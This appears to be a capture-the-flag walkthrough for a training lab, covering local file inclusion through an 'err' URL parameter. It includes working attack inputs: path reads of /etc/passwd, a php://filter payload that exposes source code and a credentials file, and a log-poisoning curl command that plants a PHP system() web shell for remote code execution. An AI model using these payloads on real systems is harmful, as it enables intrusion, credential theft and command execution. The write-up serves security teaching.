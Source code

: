 ## TASK-1 Use the entry point to perform LFI to read the /etc/flag file. What is the flag?

Visit the web server. You can see a error message on the screen. Notice ```/?err=error.txt``` in the url. It indicates that ```/?err``` parameter is used to fetch
the content of the error.txt file which is then shown in the page.<br>

Try removing ```error.txt``` and adding ```/etc/passwd```, which is successfull which shows that the parameter is vulnerable to <strong>LFI</strong>.

## TASK-2 Use the entry point to perform LFI to read the /etc/flag file. What is the flag?

Using the same above method try to fetch ```/etc/flag```. You should get a flag ```THM{REDACTED}```

## TASK-3 Use the PHP filter technique to read the source code of the index.php. What is the $flag variable's value?

If you try to fetch the ```index.php``` from err parameter. We get errors because the web server tries to execute the PHP code So, we need to use <b>PHP filtering</b>
```/?err=php://filter/convert.base64-encode/resource=index.php```. This will encode the ```index.php``` in base64 and return it to the page. <br>

Decode the base64 encoded value using [Base64decoder](https://www.base64decode.org). And you will get something like this.<br>
```php
<?php session_start();
$flag = "THM{REDACTED}";
include("./includes/creds.php");
if($_SESSION['username'] === $USER){                        
	header( 'Location: manage.php' );
	die();
} else {
	$labNum = "";
  require "./includes/header.php";
?>
...SNIP...
```
There comes the flag!

## TASK-3 Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content.

In the above decoded PHP script, in the 3rd line it i trying to include a file called ```creds.php``` from includes directory.<br>
Try to access the file same like we did in Task-2and again decode the base64 value, the decoded code looks something like this.
```php
<?php 
$USER = "REDACTED";
$PASS = "REDACTED";
?>
```
## TASK-4 Use the credentials to login into the web application. What is the password of the flag.thm.aoc server?

Use the credentials from TASK-3 and login to the site. Under <strong>Password Recovery</strong>. There you will find the flag in plain text.

## TASK-5 Use the LFI to gain RCE via the log file page. What is the hostname of the webserver?

Since, this web server logs all the traffic coming to the server in the log file, with <strong>User-Agent</strong>. We can use <b>Log Poisoning</b> to get <b>RCE</b>
by tampering the User-Agent in the request.<br>

```curl -A "<?php echo 'Test';system(\$_GET['cmd']);?>" http://url/index.php```

Send this request from your commandline. Now try to access ``` http://url/index.php&cmd=hostname``` and visit ```http://url/index.php/?err=../../../var/www/html/includes/logs/app_access.log```<br>
and you should see the output of the command in the log file.

Detailed Video Explaination can be found in : [here](https://youtu.be/pGPE5uCI5h8)

<h3><b>That's it for Day-6. Happy Hacking! </b></h3>








